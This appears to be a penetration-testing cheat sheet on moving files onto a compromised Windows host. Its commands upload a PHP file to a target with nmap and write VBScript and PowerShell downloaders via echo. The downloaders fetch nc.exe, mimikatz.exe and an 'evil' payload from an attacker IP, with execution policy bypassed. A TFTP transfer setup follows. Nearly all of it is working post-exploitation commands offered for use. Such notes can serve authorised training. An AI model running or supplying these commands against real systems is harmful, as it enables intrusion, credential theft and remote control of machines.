 ## Nmap

> nmap -p 80 *TARGET_IP* --script http-put --script-args http-put.url='/remotefile.php',http-put.file='/root/myfile.php'

## VBScript

Copy this into Windows Shell

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

> cscript wget.vbs http://YOURIP/file_to_send.txt C:\save\file\here.txt

> cscript wget.vbs http://10.11.0.125/accesschk.exe C:\accesschk.exe

> cscript wget.vbs http://10.11.0.125/nc.exe C:\nc.exe

> cscript wget.vbs http://10.11.0.125/mimikatz.exe C:\mimikatz.exe


## Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://YOUR_IP/evil.txt" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

## TFTP

Installed on Windows XP up to 2003 by default
Ensure tftp is all set up as follows:

```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
```

On Windows 
> tftp -i --yourIP-- get file.exe




